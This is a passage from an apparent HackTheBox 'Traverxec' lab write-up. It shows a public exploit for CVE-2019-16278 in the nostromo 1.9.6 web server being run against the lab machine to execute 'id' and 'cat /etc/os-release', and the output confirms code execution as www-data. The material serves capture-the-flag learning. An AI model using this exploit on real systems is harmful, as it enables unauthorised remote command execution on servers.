 ```bash	

        cve(target, port, cmd)


```

The exploit is **fire and forget**.  Just run like the instructions said and get a shell

```bash
dumbland () hgfs/hackthebox/traverxec :: python 47837.py 10.10.10.165 80 'id'

                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 23 Apr 2020 14:50:43 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Some basic enumeration to see what kind of shell we can get:

```bash
dumbland () hgfs/hackthebox/traverxec :: python 47837.py 10.10.10.165 80 'cat /etc/os-release'
                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 23 Apr 2020 14:54:24 GMT
Server: nostromo 1.9.6
Connection: close


PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```